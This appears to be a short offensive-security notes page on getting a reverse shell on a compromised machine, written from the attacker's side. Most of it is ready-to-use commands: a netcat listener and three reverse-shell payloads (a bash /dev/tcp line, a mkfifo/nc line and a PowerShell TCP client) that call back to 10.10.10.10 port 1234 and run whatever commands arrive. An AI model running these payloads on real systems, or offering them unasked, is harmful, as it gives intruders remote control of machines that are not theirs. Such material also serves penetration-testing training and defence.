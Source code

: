 # Why get a shell?

Once you have a system comprised, you dont want to have to configureand execute the same exploit to return to the system. Using networking protocols like ssh for Linux or WinRm for windows can get you a command line interface for an ip, but you will need credentials for that. Finding a service running on a system that is vunerable to opening shells can leave the attacker with a convenient point of entry back the to target.


# Reverse Shell
If you find a system that us vulnerable to remote code execution, you execute commands on the target machine to connect back to your machine. On your machine you use netcat to listen on a port, then on the target machine you execute a payload for a windows shell or linux shell

Commands to run on your machine:

``` bash 

nc -lvnp <port-number> 
```

-l stands for listen, v is for verbose so netcat will print outpur updating us on the state of the connection, n blocks DNS resolution so our machine doesnt try to connect to a DNS server and translate the incoming ip to a domain name and waste time, and p allows you to specify a port.

Commands to run on target machine:

	lunix shells:
``` bash

	bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
	```

	or

``` bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

```

	windows shell:

``` powershell

	powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

```


